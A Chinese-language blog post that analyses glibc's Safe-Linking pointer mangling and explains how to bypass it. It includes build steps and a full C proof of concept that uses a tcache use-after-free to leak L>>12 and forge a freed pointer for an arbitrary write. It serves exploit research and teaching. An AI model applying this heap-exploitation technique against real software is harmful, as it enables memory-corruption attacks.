 ### 环境搭建

下载glibc引入Safe-Linking机制版本：

```
git clone git://sourceware.org/git/glibc.git
cd glibc
git checkout 76d5b2f002a1243ddba06bd646249553353f4322
```

编译：

```
cd glibc
mkdir build
cd build
../configure --prefix=/usr/local/glbic/glibc2.31
make
sudo make install
```

指定glibc编译poc代码：

```c
gcc poc.c -o poc -g -Wl,--rpath=/usr/local/glbic/glibc2.31/libc -Wl,--dynamic-linker=/usr/local/glbic/glibc2.31/lib/ld-linux-x86-64.so.2
```

安装pwngdb，之后就可以愉快地调试了。

### Safe-Linking 机制分析

打算从glibc 2.32引入Safe-Linking 保护，将堆块头部保存的地址重新计算，具体计算过程如下：

```c
#define PROTECT_PTR(pos, ptr, type)  \
        ((type)((((size_t)pos) >> PAGE_SHIFT) ^ ((size_t)ptr)))
#define REVEAL_PTR(pos, ptr, type)   \
        PROTECT_PTR(pos, ptr, type)
```

将指针的地址右移PAGE_SHIFT 再和指针本身异或，如下，L为指针的地址，P为指针本身，该操作是可逆的，取指针时再做一次操作就可以还原得到原来的指针：

![img](D:\github\De4dCr0w.github.io\image\2020-06-04-Safe-Linking机制分析\4.png)

上述这种方法相当于对指针进行了随机化，有点想linux 内核下CONFIG_SLAB_FREELIST_HARDENED的缓解机制，CONFIG_SLAB_FREELIST_HARDENED的计算是：

```c
下一个free object的地址 = random ^ 当前free object的地址 ^ 当前free object 原本fd处的值
```

在 kmem_cache 增加了一个unsigned long类型的变量random。

### Safe-Linking 机制绕过

主要就是泄漏L>>12的值，通过构造堆块，使得chunkC被包含在一个大堆块中，有两个指针同时指向chunkC，造成UAF，释放一个chunkC指针到tcache中，此时chunkC为tcache中第一个bin，fd引入补丁前填充的是0，此时因为Safe-Linking，P' = L >> 12 ^ P = L >> 12 ^ 0 = L >> 12。所以fd填充的是L>>12的值，所以通过另一个chunkC指针就可以泄露该值，后续将目标地址和L12异或计算填充到fd，就可以达到任意地址的读写。

以下demo代码最终效果是将arbitrary_variable变量改写成0x112233445566。并且没有Safe-Linking的引入，demo代码也能达到相同效果，因为此时泄露出来的L>>12为0，目标地址和0异或还是正确的地址。

综上所述，要绕过Safe-Linking主要就是泄露L的信息。其实如果能泄露堆的地址其实也可以。

验证代码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <inttypes.h>

#define SAFE_FREE(p) { free(p); p = NULL; }

char *payload = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x40\x01\x00\x00\x00\x00"
                "\x00\x00\xa0";

char *payload2 = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x41\x01";

uint64_t screw_up_alignment = 0x4a4a4a4a;
uint64_t arbitrary_variable = 0x11111111;

int bypass_demo() {
    void *tcache_allocs[7];

    for( int i = 0; i < 7; i++) {
        tcache_allocs[i] = malloc(0x98);
    }

    char *chunkA = malloc(0x98);
    char *chunkB = malloc(0x98);
    char *chunkC = malloc(0x98);
    char *chunkD = malloc(0xb8);

    for( int i = 0; i < 7; i++) {
        SAFE_FREE(tcache_allocs[i]);
    }

    SAFE_FREE(chunkB);

    memcpy(chunkC, payload, 0x99);

    chunkD[0x98] = '\x21';

    memcpy(chunkA, payload2, 0x9a);

    SAFE_FREE(chunkD);

    for( int i = 0; i < 7; i++) {
        tcache_allocs[i] = malloc(0x98);
    }

    char *junk = malloc(0x98);
    char *chunkC2 = malloc(0x98);

    SAFE_FREE(chunkC2);

    uint64_t L12 = *(int64_t *)chunkC;

    uint64_t masked_ptr = L12 ^ (((uint64_t) &arbitrary_variable) & ~0xf);
    uint64_t *chunkC3 = malloc(0x98);

    SAFE_FREE(tcache_allocs[0]);

    SAFE_FREE(chunkC3);

    *(uint64_t *) chunkC = masked_ptr;
    
    char *junk2 = malloc(0x98);
    uint64_t *winner = malloc(0x98);

    *(winner+1) = 0x112233445566;

    printf("\nArbitrary variable now contains 0x%lx\n", arbitrary_variable);
}

int main() {
    bypass_demo();
    return 0;
    
}
```



### 参考链接：

在uclibc-ng中引入的补丁：https://gogs.waldemar-brodkorb.de/oss/uclibc-ng/commit/886878b22424d6f95bcdeee55ada72049d21547c  就是在取p->fd和存放p->fd时都改成调用REVEAL_PTR

https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/  机制介绍

https://www.researchinnovations.com/post/bypassing-the-upcoming-safe-linking-mitigation 机制绕过

 